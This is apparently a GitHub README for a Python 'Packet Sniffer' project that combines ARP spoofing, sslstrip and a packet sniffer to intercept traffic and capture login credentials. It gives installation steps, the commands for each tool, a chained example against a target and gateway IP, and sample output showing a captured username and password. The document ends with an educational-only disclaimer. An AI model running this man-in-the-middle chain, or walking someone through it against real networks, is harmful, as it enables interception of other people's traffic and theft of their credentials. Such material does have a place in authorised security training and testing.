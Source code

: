 # Packet Sniffer Project

## Overview

The Packet Sniffer project is a collection of Python scripts designed for network security testing and analysis. It includes tools for ARP spoofing and packet sniffing, enabling users to monitor network traffic and capture sensitive information such as login credentials.

## Features

- **ARP Spoofer**: Redirect network traffic between devices on the same network.
- **Packet Sniffer**: Capture and analyze network packets to extract useful information.

## Requirements

- Python 3.x
- Scapy
- sslstrip

## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/arifbinekram/Packet-Sniffer.git
   ```

2. Navigate to the ARP spoofer directory:

   ```bash
   cd Packet-Sniffer/arp\ spoofer
   ```

3. Ensure you have the required dependencies installed. You can install Scapy using pip:

   ```bash
   pip install scapy
   ```

4. For `sslstrip`, you might need to install it manually or use your package manager:

   ```bash
   sudo apt-get install sslstrip
   ```

## Usage

### ARP Spoofer

The ARP spoofer script redirects traffic between a target device and the gateway.

1. Run the ARP spoofer:

   ```bash
   python arp_spoof.py -t <target_ip> -s <spoof_ip>
   ```

   Replace `<target_ip>` with the IP address of the target device and `<spoof_ip>` with the IP address of the gateway.

### SSL Strip

To strip SSL/TLS from the traffic, run `sslstrip` in a separate terminal:

   ```bash
   sslstrip
   ```

### Packet Sniffer

The packet sniffer script captures and analyzes network packets.

1. Navigate to the packet sniffer directory:

   ```bash
   cd ../packet\ sniffer
   ```

2. Run the packet sniffer:

   ```bash
   python packet_sniffer.py
   ```

   The script will start capturing HTTP requests and possible login credentials.

## Example

Here is an example of how to use the tools together:

1. Start ARP spoofing:

   ```bash
   cd Packet-Sniffer/arp\ spoofer
   python arp_spoof.py -t 10.0.2.4 -s 10.0.2.1
   ```

2. In a separate terminal, run `sslstrip`:

   ```bash
   sslstrip
   ```

3. Start the packet sniffer:

   ```bash
   cd ../packet\ sniffer
   python packet_sniffer.py
   ```

   Example output:

   ```text
   [+] HTTP Request > www.sxtmgc.com/admin/loginvalidate.php
   [+] Possible username and password: username=packetsniffer%40gmail.com&password=wefergrhsdffr&submit=
   ```

## Disclaimer

This project is intended for educational purposes only. Unauthorized interception of network traffic is illegal and unethical. Use this tool responsibly and only on networks where you have explicit permission to test.

## License

This project is licensed under the MIT License.

---

Feel free to contribute to this project by submitting issues or pull requests to the GitHub repository.
